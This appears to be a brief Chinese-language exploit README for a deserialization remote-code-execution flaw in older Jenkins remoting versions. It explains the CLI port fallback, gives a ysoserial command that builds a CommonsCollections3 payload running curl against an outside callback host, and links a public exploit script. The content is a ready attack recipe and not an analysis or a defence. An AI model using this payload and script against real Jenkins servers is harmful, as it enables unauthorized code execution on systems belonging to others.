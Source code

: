 <languages  />

簡介
----

CloudBeesJenkinsCI1.650之前版本和LTS1.642.2之前版本的remoting模塊中存在安全漏洞。遠程攻擊者可通過打開JRMP監聽程序利用該漏洞執行任意代碼。

利用需要X-Jenkins-CLI2-Port對應的端口，如果Jenkins無法獲取CLI版本2的端口標頭`X-Jenkins-CLI2-Port`它會退回到版本1。

利用ys生成二進製文件
--------------------

    java -jar ysoserial.jar CommonsCollections3 "curl http://r9rub4.ceye.io/" > payload.bin

利用腳本
--------

<https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py>